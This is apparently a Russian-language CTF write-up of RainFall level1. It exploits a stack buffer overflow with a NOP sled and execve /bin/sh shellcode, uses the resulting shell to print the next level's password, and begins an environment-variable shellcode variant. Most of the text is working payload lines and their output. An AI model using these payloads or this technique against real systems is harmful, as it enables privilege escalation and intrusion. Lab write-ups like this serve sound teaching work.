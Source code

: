 ```sh
# 0xbffff6e0:     0xbffff847      0xbffff85e      0xbffff876      0xbffff886

```
`C` выровнены начиная с адреса `0xbffff640` - это именно то место, куда будет положен shellcode и NOP (\x90).

Запуск в дебаггере  кода с выводом от команды \
`(python -c 'print "A"*76 + "\x40\xf6\xff\xbf" + "\x90" * 40 + "\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1"')` \
отработает, но оболочка откроется с правами пользователя, запустившего бинарник. Это особенность дебаггера в целях безопасности.

За пределами дебаггера выполняю команду: \
`(python -c 'print "A"*76 + "\x40\xf6\xff\xbf" + "\x90" * 40 + "\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1"'; cat) | ./level1 ` \
и оболочка не открывается, потому что я не попадаю на шелл код. Это связано с тем, что при запуске в дебаггере и без него адреса немного отличаются (разные переменные окружения, которые кладутся перед кодом программы).

Подбираю правильный адрес (подошел на 16*3 байт больше), чтобы попасть на NOP (\x90) и проскользить до shellcode:
```sh
(python -c 'print "A"*76 + "\x70\xf6\xff\xbf" + "\x90" * 40 + "\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1"'; cat) | ./level1 
        whoami
        level2
        cat /home/user/level2/.pass
        53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

```
Уровень пройден!
```sh
su level2
# Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

<a name="level1_shellcode_in_env"></a> 
## _3._ level1: shellcode в env

В [level1: shellcode на стеке](#level1_shellcode_on_stack) я рассматривала, как подобрать подходящий [shellcode](#shellcode). Воспользуюсь здесь тем же кодом.

Создаю переменную окружения:
```sh
export SHELLCODE=$'\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1'
```
Компилирую и запускаю файл (env_addr.c) в папке /tmp/:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
        printf("%p\n", getenv("SHELLCODE"));
        return 0;
}
```
```sh
gcc /tmp/env_addr.c -o /tmp/env_addr
level2@RainFall:~$ /tmp/env_addr
# ||
# \/
# 0xbffff868
```